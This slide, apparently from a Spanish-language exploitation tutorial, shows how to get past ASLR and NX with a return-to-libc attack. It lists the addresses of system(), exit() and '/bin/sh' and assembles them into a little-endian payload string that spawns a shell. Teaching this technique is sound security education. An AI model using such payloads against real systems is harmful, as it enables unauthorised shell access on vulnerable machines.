

Evadiendo ASLR y NX
Ahora que disponemos de dicha información se puede compilar en Little endian la cadena de código malicioso que se forma de lo siguiente.

System = 0xb756d310 (\x10\xd3\x56\xb7)
Exit = 0xb7560260 (\x60\x02\x56\xb7)
/bin/sh = 0xb768fbac (\xac\xfb\x68\xb7)

Cadena maliciosa en Little Endian = \x10\xd3\x56\xb7\x60\x02\x56\xb7\xac\xfb\x68\xb7